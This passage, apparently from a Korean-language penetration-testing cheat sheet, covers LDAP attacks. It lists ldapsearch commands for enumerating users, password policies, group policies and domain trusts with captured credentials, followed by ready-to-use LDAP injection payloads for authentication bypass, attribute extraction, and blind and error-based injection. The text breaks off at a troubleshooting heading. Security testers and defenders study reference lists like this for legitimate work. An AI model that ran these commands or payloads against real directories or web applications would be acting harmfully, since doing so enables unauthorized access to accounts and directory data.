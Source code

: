 ### 🔐 크레덴셜 확보시 고급 열거

```bash
# 인증된 연결로 더 많은 정보 수집
ldapsearch -x -h {IP} -D "{DOMAIN}\\{USERNAME}" -w {PASSWORD} -b "$DC_STRING" "(objectClass=user)" *

# 패스워드 정책 확인
ldapsearch -x -h {IP} -D "{USERNAME}@{DOMAIN}" -w {PASSWORD} -b "$DC_STRING" "(objectClass=domainDNS)" maxPwdAge minPwdAge minPwdLength pwdHistoryLength

# GPO (Group Policy Object) 정보
ldapsearch -x -h {IP} -D "{USERNAME}@{DOMAIN}" -w {PASSWORD} -b "CN=Policies,CN=System,$DC_STRING" "(objectClass=groupPolicyContainer)"

# 신뢰 관계 확인
ldapsearch -x -h {IP} -D "{USERNAME}@{DOMAIN}" -w {PASSWORD} -b "CN=System,$DC_STRING" "(objectClass=trustedDomain)"

# 세밀한 패스워드 정책
ldapsearch -x -h {IP} -D "{USERNAME}@{DOMAIN}" -w {PASSWORD} -b "CN=Password Settings Container,CN=System,$DC_STRING" "(objectClass=msDS-PasswordSettings)"
```

### 🎭 LDAP Injection 테스트

```bash
# 기본 LDAP injection 페이로드
# 웹 애플리케이션에서 LDAP 인증을 사용하는 경우

# 인증 우회 페이로드
*)(uid=*))(|(uid=*
*)(|(password=*)
*))%00

# 속성 추출 페이로드
admin)(&(password=*)(cn=*
admin)(&(password=secret)(description=*

# Boolean-based 블라인드 인젝션
admin)(&(password=a*)(cn=admin
admin)(&(password=b*)(cn=admin

# 에러 기반 인젝션
admin)(&(password=secret)(invalidattribute=*
```

---

## 🚨 문제 해결

### 🚫 LDAP 연결 거부시
